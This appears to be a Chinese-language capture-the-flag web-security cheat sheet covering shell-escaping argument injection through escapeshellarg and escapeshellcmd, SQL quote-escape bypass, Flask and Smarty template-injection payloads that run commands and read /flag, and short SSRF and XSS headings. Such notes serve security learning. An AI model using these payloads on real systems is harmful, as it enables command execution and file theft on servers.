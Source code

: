 多层编码之间的配合错误

如escapeshellarg+escapeshellcmd 存在单引号配对错误 参数逃逸

> 存在独立单引号’时，escapeshellarg先为’转义为'，后为'两端字符串添加成对单引号闭合 172.17.0.2' -v -d a=1 -> ‘172.17.0.2’\'' -v -d a=1'
>
> escapeshellcmd将\转义，单引号依次匹配，则末尾单引号被识别为未闭合
>
> ‘172.17.0.2’\'' -v -d a=1' -> ‘172.17.0.2’\\'' -v -d a=1\'

```
addslashes操作后续存在字符串替换，\逃逸用于转义'，改变闭合
```

SQL单引号过滤绕过同理：存在两个参数时，将前一个参数反引号转义，使后一参数逃逸

但是`;` `|`等字符会被转义，无法直接执行命令，需要尝试运用参数写入shell等

## SSTI

- flask SSTI

  ```python
      print(''.__class__.__base__.__subclasses__()[40/75/80].__init__.__globals__['__builtins__']['__import__']('os').__getattribute__('popen')('ls').read())
  ```

- smart SSTI

  ```
  {if readfile('/flag')}{/if}
    
  {{system('cat /flag')}}
  ```

## SSRF

### gopher

wireshark抓包，注意url编码

### PHP花式伪协议

[php伪协议](https://www.freebuf.com/column/148886.html)

### 花式绕过URL过滤

[SSRF绕过方法总结](https://www.secpulse.com/archives/65832.html)

## XSS

### CSP规则
